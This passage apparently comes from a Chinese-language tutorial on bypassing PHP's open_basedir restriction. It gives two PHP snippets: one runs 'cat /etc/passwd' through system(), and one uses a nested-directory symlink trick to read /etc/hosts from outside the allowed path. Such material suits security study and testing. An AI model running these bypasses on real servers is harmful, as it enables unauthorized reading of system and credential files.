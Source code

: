 [![](assets/1708675446-26a5c61dc39160234bb8e4ae791381c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121030-51321f72-d138-1.png)

#### shell 命令执行

shell 命令不受 open\_basedir 的影响

```plain
<?php
    show_source(__FILE__);
    ini_get('open_basedir');
    system('cat /etc/passwd');
?>
```

#### symlink()

```plain
<?php
    show_source(__FILE__);

    mkdir("1");chdir("1");
    mkdir("2");chdir("2");
    mkdir("3");chdir("3");
    mkdir("4");chdir("4");

    chdir("..");chdir("..");chdir("..");chdir("..");

    symlink("1/2/3/4","tmplink");
    symlink("tmplink/../../../../etc/hosts","bypass");
    unlink("tmplink");
    mkdir("tmplink");
    echo file_get_contents("bypass");
?>
```
